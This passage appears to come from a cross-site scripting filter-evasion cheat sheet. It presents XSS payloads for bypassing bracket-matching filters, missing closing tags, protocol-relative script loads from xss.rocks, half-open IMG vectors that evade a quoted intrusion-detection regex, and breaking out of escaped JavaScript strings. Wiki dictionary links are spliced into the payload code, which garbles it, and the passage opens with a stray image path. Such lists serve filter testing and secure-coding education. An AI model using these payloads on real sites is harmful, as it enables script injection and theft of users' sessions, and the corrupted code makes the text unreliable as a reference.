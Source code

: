 #### Extraneous Open Brackets¶
This [[_content/dictionary#X|XSS]] vector could defeat certain detection engines that work by checking matching pairs of open and close angle brackets then comparing the tag inside, instead of a more efficient algorithm like [Boyer-Moore](https://en.wikipedia.org/wiki/Boyer%E2%80%93Moore_string-search_algorithm) that looks for entire string matches of the open angle bracket and associated tag (post de-obfuscation, of course). The double slash comments out the ending extraneous bracket to suppress a [[_content/dictionary#J|JavaScript]] error:
<<[[_content/dictionary#S|SCRIPT]]>alert("XSS");//\<</SCRIPT>

(Submitted by Franz Sedlmaier)
#### No Closing Script Tags¶
With Firefox, you don't actually need the \></[[_content/dictionary#S|SCRIPT]]> portion of this [[_content/dictionary#X|XSS]] vector, because Firefox assumes it's safe to close the [[_content/dictionary#H|HTML]] tag and adds closing tags for you. Unlike the next attack, which doesn't affect Firefox, this method does not require any additional HTML below it. You can add quotes if you need to, but they're normally not needed:
<SCRIPT [[_content/dictionary#S|SRC]]=http://xss.rocks/xss.js?< B >

#### Protocol Resolution in Script Tags¶
This particular variant is partially based on Ozh's protocol resolution bypass below, and it works in IE and Edge in compatibility mode. However, this is especially useful where space is an issue, and of course, the shorter your domain, the better. The .j is valid, regardless of the encoding type because the browser knows it in context of a [[_content/dictionary#S|SCRIPT]] tag:
<SCRIPT [[_content/dictionary#S|SRC]]=//xss.rocks/.j>

(Submitted by Łukasz Pilorz)
#### Half Open [[_content/dictionary#H|HTML]]/[[_content/dictionary#J|JavaScript]] [[_content/dictionary#X|XSS]] Vector¶
Unlike Firefox, the IE rendering engine (Trident) doesn't add extra data to your page, but it does allow the javascript: directive in images. This is useful as a vector because it doesn't require a close angle bracket. This assumes there is any HTML tag below where you are injecting this XSS vector. Even though there is no close \> tag the tags below it will close it. A note: this does mess up the HTML, depending on what HTML is beneath it. It gets around the following network intrusion detection system ([[_content/dictionary#N|NIDS]]) regex: /((\\%3D)|(=))\[^\\n\]\*((\\- %3C)|\<)\[^\\n\]+((\\%3E)|\>)/ because it doesn't require the end \>. As a side note, this was also affective against a real world XSS filter using an open ended <[[_content/dictionary#I|IFRAME]] tag instead of an <[[_content/dictionary#I|IMG]] tag.
<IMG [[_content/dictionary#S|SRC]]="`<javascript:alert>`('XSS')"

#### Escaping [[_content/dictionary#J|JavaScript]] Escapes¶
If an application is written to output some user information inside of a JavaScript (like the following: <[[_content/dictionary#S|SCRIPT]]>var a="$[[_content/dictionary#E|ENV]]{[[_content/dictionary#Q|QUERY]]\_STRING}";</SCRIPT>) and you want to inject your own JavaScript into it but the server side application escapes certain quotes, you can circumvent that by escaping their escape character. When this gets injected it will read <SCRIPT>var a="\\\\";alert('[[_content/dictionary#X|XSS]]');//";</SCRIPT> which ends up un-escaping the double quote and causing the XSS vector to fire. The XSS locator uses this method:
\";alert('XSS');//

An alternative, if correct [[_content/dictionary#J|JSON]] or [[_content/dictionary#J|JavaScript]] escaping has been applied to the embedded data but not [[_content/dictionary#H|HTML]] encoding, is to finish the script block and start your own:
</script><script>alert('[[_content/dictionary#X|XSS]]');</script>
